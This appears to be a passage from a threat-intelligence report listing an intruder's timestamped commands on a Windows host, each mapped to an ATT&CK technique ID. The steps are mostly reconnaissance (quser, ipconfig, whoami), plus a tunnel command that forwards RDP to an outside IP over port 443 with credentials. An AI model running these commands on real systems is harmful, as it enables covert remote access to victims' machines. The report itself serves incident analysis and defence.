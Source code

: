 
14:34:25
quser /server:<redacted IP #1>
T1087


14:36:57
echo y | echo q | echo y | echo q | echo y | echo q |echo y | echo q | echo y | echo q | echo y | echo q | time
T1124


14:37:11
echo y | echo q | echo y | echo q | echo y | echo q |echo y | echo q | echo y | echo q | echo y | echo q | time
T1124


14:43:34
quser /server:<redacted IP #1>
T1087


14:43:53
quser /server:<redacted IP #2>
T1087


14:49:14
quser /server:<redacted IP #1>
T1087


14:49:33
quser <redacted username #1> /server:<redacted hostname #1>
T1087


15:43:13
ipconfig /all
T1016


15:43:21
quser /server:<redacted IP #1>
T1087


15:44:53
dir c:\windows\temp\*.exe
T1083


15:45:15
echo y | c:\windows\temp\RTQ.exe 192.119.110[.]194 -C -R 0.0.0.0:8081:<redacted IP #2>:3389 -l bor -pw 123321 -P 443
T1572, T1021.001


15:45:26
whoami
T1033
